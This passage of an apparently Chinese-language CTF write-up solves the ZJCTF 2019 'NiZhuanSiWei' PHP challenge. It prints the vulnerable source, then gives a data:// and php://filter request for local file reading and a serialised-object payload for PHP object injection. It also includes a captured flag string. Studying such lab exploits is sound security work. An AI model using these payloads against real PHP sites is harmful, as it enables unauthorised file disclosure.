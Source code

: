flag{78df171e-faa3-4c31-922f-a1f532e06dac}

{{% /spoiler %}}

{{% spoiler "[ZJCTF 2019]NiZhuanSiWei  |  反序列化 LFI" %}}

```
<?php
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit();
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

指定了`r`，用`data://`伪协议

```
/?text=data://text/plain,welcome to the zjctf&file=php://filter/convert.base64-encode/resource=useless.php
```

```
<?php

class Flag{  //flag.php
    public $file;
    public function __tostring(){
        if(isset($this->file)){
            echo file_get_contents($this->file);
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }
    }
}
?>

```

非常简单的反序列化

```
$a = new Flag();
$a->file = 'flag.php';
echo serialize($a);
```
